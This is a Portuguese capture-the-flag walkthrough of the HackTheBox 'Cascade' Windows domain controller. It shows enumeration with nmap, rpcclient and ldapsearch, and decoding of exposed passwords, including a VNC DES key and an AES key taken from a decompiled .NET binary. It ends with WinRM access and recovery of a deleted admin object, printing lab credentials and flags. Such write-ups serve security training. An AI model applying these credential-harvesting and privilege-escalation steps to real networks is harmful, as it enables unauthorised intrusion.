

# Resolução da máquina **Cascade**

#### Máquina Medium (hackthebox.com)

#### by **_JavaliMZ_** - 21/09/2021

---

---

# Enumeração

## Nmap

Como em todas as máquinas que fazemos, e como em qualquer trabalho de Pentesting, a primeira fase é a de reconhecimento. Nesta fase, iremos proceder á enumeração das portas, e de outras coisas a seguir. Para enumerar as portas da nossa máquina alvo, irei usar o **nmap**.

```bash
nmap -p- -n -Pn 10.10.10.182 -sS --min-rate 5000 -oG enumeration/allPorts
nmap -p53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49170 10.10.10.182 -sC -sV -Pn -oN enumeration/nmap-a.txt
```


```txt
# Nmap 7.91 scan initiated Tue Sep 21 17:23:02 2021 as: nmap -p53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49170 -sC -sV -Pn -oN enumeration/nmap-a.txt 10.10.10.182
Nmap scan report for cascade.local (10.10.10.182)
Host is up (0.041s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-21 16:23:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-09-21T16:24:00
|_  start_date: 2021-09-21T16:08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 21 17:24:39 2021 -- 1 IP address (1 host up) scanned in 97.48 seconds
```

O resultado do nmap nos indica que provavelmente estaremos enfrentando um Active Directory / Domain Controller, devido ás suas portas de DNS, Samba, RPC, LDAP, Kerberos e WinRM abertas.

## RDP

A primeira coisa a analisar é ver se podemos extrair nomes de usuários de domínio via RPCClient. Nesta máquina temos que especificar que queremos entrar com o usuário vazio (-U '') e sem password (-N).

```bash
rpcclient 10.10.10.182 -N -U ''
```

Neste ponto estamos efectivamente no modo interativo, e podemos listar os usuários via **_enumdomusers_**. Para extrair melhor os dados, prefiro executar diretamente os comandos em vez de entrar em modo interativo para poder receber o resultado no meu stdout normal e poder pipear os comandos com outros:

```bash
rpcclient 10.10.10.182 -N -U '' -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > contents/users
```


## GetNPUsers.py

Agora que temos usuários de domínio, irei só adicionar usuários admin por defeito e, já que kerberos está aberto, tentar efetuar uma ataque chamado AS-REP Roasting Attack, para tentar recuperar TGT de usuário que foram criados com a opção 'Do not require Kerberos preauthentication' selecionada. Ainda perciso saber o nome do Domain Controller. Então primeiro, vou rodar um crackmapexec, guardar as informações relevantes, e a seguir usar o GetNPUsers.py para tentar recuperar TGTs.

```bash
crackmapexec smb 10.10.10.182
#>  SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
echo -e "10.10.10.182\tcascade.local" >> /etc/hosts

GetNPUsers.py cascade.local/ -no-pass -usersfile contents/users
```

Nenhum usuário é AS-REP Roastable... Next!

## LDAPSearch

O ldapsearch é uma ferramenta que pode extrair toda a informação de todos os objectos extraíveis por LDAP, que é um protocolo de aplicação para acessar e manter serviços de informações de diretório. É por aí que, por exemplo, uma administrador de domínio cria um novo usuário local de uma máquina onde ele não está... Podemos enumerar os usuários todos, grupos, quem pertence a "x" grupo... É também esse o protocolo pelo qual a ferramenta **_bloodhound-python_**, já usada em outras máquina, extrai toda a informação para gerar o gráfico do bloodhound.

```bash
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local" | grep "@cascade.local" -A 25 | grep -Ei "userPrincipalName|pass|pwd|cred|secret"

#>  userPrincipalName: CascGuest@cascade.local
#>  userPrincipalName: arksvc@cascade.local
#>  userPrincipalName: s.smith@cascade.local
#>  userPrincipalName: r.thompson@cascade.local
#>  cascadeLegacyPwd: clk0bjVldmE=
#>  userPrincipalName: util@cascade.local
#>  userPrincipalName: j.wakefield@cascade.local
#>  userPrincipalName: s.hickson@cascade.local
#>  userPrincipalName: j.goodhand@cascade.local
#>  userPrincipalName: a.turnbull@cascade.local
#>  userPrincipalName: e.crowe@cascade.local
#>  userPrincipalName: b.hanson@cascade.local
#>  userPrincipalName: d.burman@cascade.local
#>  userPrincipalName: BackupSvc@cascade.local
#>  userPrincipalName: j.allen@cascade.local
#>  userPrincipalName: i.croft@cascade.local
```

Temos de novo todos os usuários, mas também temos uma informação bonus! Uma palavra passe =)

> r.thompson:clk0bjVldmE=

Vamos validar a palavra passe com crackmapexec!


Em primeira instância, a password não funciona... mas o seu formato é típico de dados criptografado em base64...

> r.thompson:rY4n5eva

# PrivEsc

## SMBClient

Temos credenciais válidas. Agora com essas novas credenciais podemos aceder ao conteúdo partilhado por Samba

```bash
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'

#>  [+] IP: 10.10.10.182:445        Name: cascade.local
#>          Disk                                                    Permissions     Comment
#>          ----                                                    -----------     -------
#>          ADMIN$                                                  NO ACCESS       Remote Admin
#>          Audit$                                                  NO ACCESS
#>          C$                                                      NO ACCESS       Default share
#>          Data                                                    READ ONLY
#>          IPC$                                                    NO ACCESS       Remote IPC
#>          NETLOGON                                                READ ONLY       Logon server share
#>          print$                                                  READ ONLY       Printer Drivers
#>          SYSVOL                                                  READ ONLY       Logon server share
```

Podemos ver 4 recursos compartilhados. Vamos dar uma vista de olhos á pasta Data

```bash
smbclient \\\\10.10.10.182\\Data -U 'r.thompson%rY4n5eva'

#>  Try "help" to get a list of possible commands.
#>  smb: \> dir
#>    .                                   D        0  Mon Jan 27 03:27:34 2020
#>    ..                                  D        0  Mon Jan 27 03:27:34 2020
#>    Contractors                         D        0  Mon Jan 13 01:45:11 2020
#>    Finance                             D        0  Mon Jan 13 01:45:06 2020
#>    IT                                  D        0  Tue Jan 28 18:04:51 2020
#>    Production                          D        0  Mon Jan 13 01:45:18 2020
#>    Temps                               D        0  Mon Jan 13 01:45:15 2020
#>
#>                  13106687 blocks of size 4096. 8163940 blocks available
#>  smb: \>
```

smbclient permite ver os recursos em modo interativo. Vemos que são várias pastas. Como não há muitas coisas, e o conteúdo também não é grande, vou descarregar tudo de uma vez só

```bash
smb: \> prompt off
smb: \> recurse on
mget *
```
Existem 2 ficheiros interessantes:
	-	"IT/Email Archives/Meeting_Notes_June_2018.html"
	-   "IT/Temp/s.smith/VNC Install.reg"

O ficheiro html contem informações de que existiu um usuário temporário de nome "TempAdmin" com uma nota (password is the same as the normal admin account password). Se por alguma razão conseguirmos obter a palavra passe se TempAdmin, provavelmente será a mesma de Administrator...

> Ficheiro Meeting_Notes_June_2018.html
```txt
From:���������������������������������������� Steve Smith

To:���������������������������������������������� IT (Internal)

Sent:������������������������������������������ 14 June 2018 14:07

Subject:������������������������������������ Meeting Notes

 

For anyone that missed yesterday�s meeting (I�m looking at you Ben). Main points are below:

 

-- New production network will be going live on Wednesday so keep an eye out for any issues.

-- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).

-- The winner of the �Best GPO� competition will be announced on Friday so get your submissions in soon.

 

Steve
```


Na pasta IT/Temp/s.smith, o arquivo VNC contém uma password em hexadecimal.

> "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

```bash
dos2unix VNC\ Install.reg
cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}'
#>  6bcf2a4b6e5aca0f
echo $(cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}') | xxd -ps -r
#> k*KnZ
```

Não parece ser a password... e se tentarmos validar com crackmapexec, não corresponde a nenhum usuário. VNC encripta a palavra passe. Mas com uma pequena pesquisa, da para se encontrar na net com desencriptar...

```bash
echo $(cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}') | xxd -ps -r | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
#>  sT333ve2
```

Agora sim! parece uma password

> s.smith:sT333ve2


s.smith tem acesso a mais uma pasta. a pasta Audit$. Vamos ver o que há lá e descarregar tudo se for viável devido ao peso.

## sqlite3

No recurso Audit$ compartilhado a nível de rede, existem binários.exe, dlls e uma base de dados. Podemos ver rapidamente a base de dados com sqlite3

```bash
sqlite3 Audit.db
sqlite> .tables
#>  DeletedUserAudit  Ldap              Misc
sqlite> select * from DeletedUserAudit;
#>  6|test|Test
#>  DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
#>  7|deleted|deleted guy
#>  DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
#>  9|TempAdmin|TempAdmin
#>  DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> select * from Ldap;
#>  1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

ArkSvc está na nossa lista de usuários. O dado encriptado em base64 poderá ser a palavra pass...

```bash
echo BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
#> D|zC;
```

Parece que não está em texto claro!! Mas também não sabemos como foi criptografado... não é como o VNC, que sempre criptografa as suas palavras passes da mesma maneira à anos... Temos que encontrar como foi criptografado. Isto vem de uma base de dados, que está na mesma pasta que um programa desconhecido e o seu dll (aparentemente): CascAudit.exe e CascCrypto.dll. Pelos nomes, isto é promissor...

## dotPeek (JetBrains)

O dotPeek é um descompilador de código baseado em .NET. E como sei que esse programa funciona?

```bash
file CascAudit.exe
#>  CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

Com a utilidade "**_file_**", vemos que é um executável Windows feito em Mono/.Net assembly. Portanto, é provável que funcione


Vemos que, na linha 39, o programa connecta-se à base de dados, como prevíamos. E na linha 46, percebemos que a string EncryptedString é a tal palavra que encontramos com o sqlite3. A seguir na linha 49, o programa tenta decryptar a palavra passe. Essa função "**_Crypto.DecryptString(EncryptedString, "c4scadek3y654321")_**" está a ser importada do CascCrypto.dll



Na linha 39 do Crypto.cs é que está definido a função "**_DecryptString_**". E dái já vemos muitas informações.

	-	Crypto.DecryptString(EncryptedString, "c4scadek3y654321");  (MainModule.cs)
		-	O trabalho de desencriptação parte daí
	-   public static string DecryptString(string EncryptedString, string Key);
		-	Isto é o nome da função, e os seus argumentos. a Key usada foi a que está em cima em texto claro ("c4scadek3y654321")
	-   byte[] buffer = Convert.FromBase64String(EncryptedString);
		-	Confirma-se que a palavra passe que encontramos na base de dados está em base64, pois o programa está a descodificar antes de tratá-lo
	-	Aes aes = Aes.Create();
		-	Aes é um tipo de criptografia de dados...
		-	Aes é amplamente usado por ser um tipo de criptografia virtualmente inquebrável, que levaria vidas inteiras para decifrá-la por brute force... Mas com o código fonte, a coisa muda...
	-	aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
		-
	-	aes.Mode = CipherMode.CBC;
		-	O método de codificação usado é o CBC cipher
	-	aes.Key = Encoding.UTF8.GetBytes(Key);
		-	confirma-se da situação da Key ser "c4scadek3y654321"

Resumo: - AES - Key == "c4scadek3y654321" - IV == "1tdyjCbY1Ix49842" - Mode == "CBC"

### Decrypt Password

Agora é só decifrá-lo. Isto claramente não vou fazer com uma calculadora (de uma não sei como se faz, e não deve ser fácil lol). Para isso existe ferramentas online, e programas diversos no github. Vou usar uma ferramenta online. o **_CyberChef_**. è só procurar as "operations", por o input e guardar o Output


> arksvc:w3lc0meFr31nd

Sempre verificar a palavra passe com crackmapexec

```bash
crackmapexec smb 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'

#>  SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
#>  SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd

crackmapexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'

#>  WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
#>  WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
#>  WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```
Temos capacidade de entrar na máquina via evil-winrm!

## PrivEsc


A ultima fase para escalar privilégios até administrador é a seguinte: Este usuário está no grupo "*CASCADE\AD Recycle Bin*". Isto permite ver todos os objectos do active directory que foram removidos. Isto inclui o tal usuário TempAdmin, cuja a sua password poderá ser a mesma do que a do Administrator.

Para reaver todos os objectos removidos, basta uma linha de comando...

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

Á resposta deste comando nesta máquina não é muito grande... mas normalmente é enorme. Por isso, recomendo exportar para um ficheiro, fazer o download deste para a nossa maquina, e fazer um grep por "**LegacyPwd e CanonicalName**"
´
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * > output.txt
# Pelo evil-winrm, é possível fazer donwload e upload directamente com a ferramenta:
download "C:/Users/arksvc/Documents/output.txt"
```
```bash
# kali
cat output.txt | grep -Ei "Legacypwd|canonicalName"

#>  CanonicalName                   : cascade.local/Deleted Objects
#>  CanonicalName                   : cascade.local/Deleted Objects/CASC-WS1
#>  CanonicalName                   : cascade.local/Deleted Objects/Scheduled Tasks
#>  CanonicalName                   : cascade.local/Deleted Objects/{A403B701-A528-4685-A816-FDEE32BDDCBA}
#>  CanonicalName                   : cascade.local/Deleted Objects/Machine
#>  CanonicalName                   : cascade.local/Deleted Objects/User
#>  CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
#>  cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

O último objecto cascade.local/Deleted Objects/TempAdmin tem como password logo abaixo YmFDVDNyMWFOMDBkbGVz (que me parece ser base64 também, mesmo não existing um "=" ou dois "==" no final)

```bash
echo YmFDVDNyMWFOMDBkbGVz | base64 -d
#>  baCT3r1aN00dles
```

Esta password era do usuário TempAdmin, mas o ficheiro html nos indicava que este usuário tinha a mesma password do que o administrador. Vamos fazer um spray na mesma com crackmapexec, mas à partida não há dúvidas


Está feito! Somos donos da máquina...

```powershell
cmd /c 'dir /r /s root.txt user.txt 2>NUL'

(type C:\Users\Administrator\Desktop\root.txt).SubString(0,15)
#>  84c82c72c538ca8
(type C:\Users\s.smith\Desktop\user.txt).SubString(0,15)
#>  2c684f92b315c28
```
